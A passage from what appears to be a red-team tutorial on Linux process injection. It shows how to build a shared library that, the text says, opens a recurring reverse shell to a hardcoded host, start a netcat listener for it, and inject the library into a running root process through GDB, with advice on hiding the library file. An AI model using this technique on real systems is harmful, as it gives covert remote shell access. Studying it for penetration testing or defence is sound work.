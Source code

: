 ```c
}
```
In a nutshell, this will spawn an unencrypted, unauthenticated reverse shell to
a hardcoded address and port every couple of minutes.  The
`__attribute__((constructor))` applied to `start_callbacks()` causes it to run
when the library is loaded.  All `start_callbacks()` does is spawn a thread to
make reverse shells.

Building a library is similar to building any C program, except that `-fPIC`
and `-shared` must be given to the compiler.
```bash
cc -O2 -fPIC -o libcallback.so ./callback.c -lpthread -shared
```
It's not a bad idea to optimize the output with `-O2` to maybe consume less CPU
time.  Of course, on a real engagement the injected library will be
significantly more complex than this example.

### Injection

Now that we have the injectable library created, we can do the deed.  First
thing to do is start a listener to catch the callbacks:
```bash
nc -nvl 4444 #OpenBSD netcat ftw!
```

`__libc_dlopen_mode` takes two arguments, the path to the library and flags as
an integer.  The path to the library will be visible, so it's best to put it
somewhere inconspicuous, like `/usr/lib`.  We'll use `2` for the flags, which
corresponds to `dlopen(3)`'s
[`RTLD_NOW`](http://man7.org/linux/man-pages/man3/dlopen.3.htm).  To get GDB to
cause the process to run the function, we'll use GDB's `print` command, which
conviently gives us the function's return value.  Instead of typing the command
into GDB, which takes eons in program time, we'll echo it into GDB's standard
input.  This has the nice side-effect of causing GDB to exit without needing
a `quit` command.
```bash
root@ubuntu-s-1vcpu-1gb-nyc1-01:~# echo 'print __libc_dlopen_mode("/root/libcallback.so", 2)' | gdb -p 664
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
...snip...
0x00007f6ca1cf75d3 in select () at ../sysdeps/unix/syscall-template.S:84
84      ../sysdeps/unix/syscall-template.S: No such file or directory.
(gdb) [New Thread 0x7f6c9bfff700 (LWP 1590)]
$1 = 312536496
(gdb) quit
A debugging session is active.

        Inferior 1 [process 664] will be detached.

Quit anyway? (y or n) [answered Y; input not from terminal]
Detaching from program: /sbin/lvmetad, process 664
```
